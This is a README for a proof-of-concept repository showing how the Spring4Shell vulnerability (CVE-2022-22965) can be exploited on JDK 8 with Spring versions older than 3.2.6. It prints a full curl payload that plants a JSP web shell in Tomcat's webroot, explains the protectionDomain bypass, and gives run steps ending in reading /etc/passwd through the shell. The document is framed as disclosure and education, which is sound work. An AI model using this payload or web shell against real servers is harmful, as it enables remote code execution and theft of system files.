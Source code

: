 Spring4Shell Demo with JDK8, Tomcat and Spring 3
--------------------------------------------------------

# Disclaimer

The content of this repository is for educational purposes only. The information on this repository should only be used to enhance the security for your computer systems and not for causing malicious or damaging attacks.

You should not misuse this information to gain unauthorized access into computer systems. Also be aware, performing hack attempts on computers that you do not own, without written permission from owners, is illegal.

I will not be responsible for any direct or indirect damage caused due to the usage of the information provided on this website.


# Goal

The purpose of this repository is to highlight another attack vector of [CVE-2022-22965 - Spring4Shell RCE vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2022-22965#vulnCurrentDescriptionTitle) and stress out the importance of patching as soon as possible.

[Spring official announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement) identifies four requirements

* Running on JDK 9 or higher
* Apache Tomcat as the Servlet container.
* Packaged as a traditional WAR and deployed in a standalone Tomcat instance. Typical Spring Boot deployments using an embedded Servlet container or reactive web server are not impacted.
* spring-webmvc or spring-webflux dependency.
* Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.

It is also stated *The vulnerability involves ClassLoader access, and therefore in addition to the specific attack reported with a Tomcat specific ClassLoader, _other attacks may be possible_ against a different custom ClassLoader*.
This should not be taken lightly.

This code example show how this vulnerability can be exploited using JDK less than 8.

# How to ?

1. docker build . -t spring4shell-demo:jdk8-spring3
2. docker run -d -P --name poc-spring4shell-jdk8 spring4shell-demo:jdk8-spring3
3. python3 exploit-jdk8.py --url http://localhost:$(docker port poc-spring4shell-jdk8 8080 | head -1 | cut -d ':' -f2)/customer/rest/customers
4. Show /etc/passwd : curl --output passwd.txt http://localhost:$(docker port poc-spring4shell-jdk8 8080 | head -1 | cut -d ':' -f2)/shell.jsp?cmd=cat%20%2fetc%2fpasswd && cat passwd.txt

# How it works ?

## Why JDK 9 or higher as prerequisite ?

The JDK9 or higher prerequisite is set because the payload on the initial exploit uses the following path `class.module.classLoader` to access the classloader.
The module concept, which is an abstraction encapsulation above the package, has been introduced in Java 9 which is why the path above can't work with previous JDK.

You can find the payload [here](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)

```shell
curl -v -d "class.module.classLoader.resources.context.parent.pipeline
.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%
22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRunt
ime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%
20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20
while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7
D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context
.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources
.context.parent.pipeline.first.directory=webapps/ROOT&class.module.cl
assLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&cl
ass.module.classLoader.resources.context.parent.pipeline.first.fileDat
eFormat=" http://<uri>
```

## Let's try JDK 8

A naïve idea would be to replace `class.module.classLoader` by `class.classLoader` on the exploit payload to directly access the classloader through the object class.
However, it does not work because Spring framework alread had counter measures for this. Looking at the [patch commit](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447L289) for CVE-2022-22965, it is understandable :

![Classloader binding protection before and after Spring4Shell](resources/classloader-access-protection-before-after-spring4shell.png)

The paths `class.classLoader` and `class.protectionDomain` are forbidden. The later one is required because otherwise you could access the classloader using `class.protectionDomain.classLoader`.

The whole cause of the current vulnerability is that Spring beans binding checks were not updated after the introduction of the module feature on Java 9.

## Circumventing Spring protection

Now that we understand why the exploit can't be run on JDK lower than 9 and the checks performed by Spring. Can we bypass them ?

Let's try to apply the same principle : maybe those checks had been introduced in a not so distant version of Spring ?

Looking at the history of the class `CachedIntrospectionResults.java` with Git, we can see that the check regarding the `protectionDomain` has been added on version [3.2.6.RELEASE](https://github.com/spring-projects/spring-framework/commit/7f895222e17b0970d4f9ab038b2f03c26aaf6f03#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447L263)

![Classloader binding protection after 3.2.6.RELEASE](resources/classloader-access-protection-after-3.2.6.png)

Any Spring framework version older than `3.2.6.RELEASE` is thus vulnerable provided that you perform minor changes on the exploit payload :

Replace `class.module.classLoader` by `class.protectionDomain.classLoader`.

I've also found out (without analyzing it further) that it requires a Tomcat version lower than `8.5.57` to work.

Needless to say that if you had managed your technical debt and thoroughly upgraded your stack (`3.2.6` was released on december 2013 and is no longer supported), it would not be a problem.

## Synthesis

For this attack vector to work, you need :

* Running on JDK 4 or higher
* Apache Tomcat as the Servlet container.
* Apache Tomcat versions *lower than 8.5.57*
* Packaged as a traditional WAR and deployed in a standalone Tomcat instance. Typical Spring Boot deployments using an embedded Servlet container or reactive web server are not impacted.
* spring-webmvc or spring-webflux dependency.
* Spring Framework versions *lower than 3.2.6.RELEASE*


# Credits

[Brandon Forbes](https://github.com/reznok) : The exploit script and Dockerfile are largely derived from [https://github.com/reznok/Spring4Shell-POC.git](https://github.com/reznok/Spring4Shell-POC.git)
[Oliver Drotbohm](https://github.com/odrotbohm) : The source code is largely derivated from [https://github.com/odrotbohm/spring-rest](https://github.com/odrotbohm/spring-rest)
[Rapid7](https://www.rapid7.com/) : The exploit payload is based on the content of this article [spring4shell-zero-day-vulnerability-in-spring-framework](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)